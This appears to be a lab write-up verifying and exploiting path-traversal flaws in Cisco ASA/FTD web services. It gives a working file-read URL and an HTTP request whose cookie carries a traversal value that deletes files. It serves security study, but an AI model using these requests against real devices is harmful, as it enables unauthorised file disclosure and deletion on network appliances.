 ## Verify that the vulnerability exists :

Downloaded the vulnerable code and compared it with the code from local environment.
![LFD](lfd.png)

When this path exists +CSCOE+/session_password.html this means the vulnerability isn't patched , and if the response is 404 that means the vulnerability is patched

![password](password.png)

## Exploiting the vulnerability on local environment:
Trying to download a file:

https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

![file_before_delete](file_before_delete.png)

Issue Request Exploit the vulnerability:

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: 192.168.1.100
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Cookie: token=../../../../../../+CSCOE+/wrong_url.html
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The file is read and stored in webvpn cookie and then deleted
![delete_file.png](delete_file.png)

```
https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

```

![file_after_delete.png](file_after_delete.png)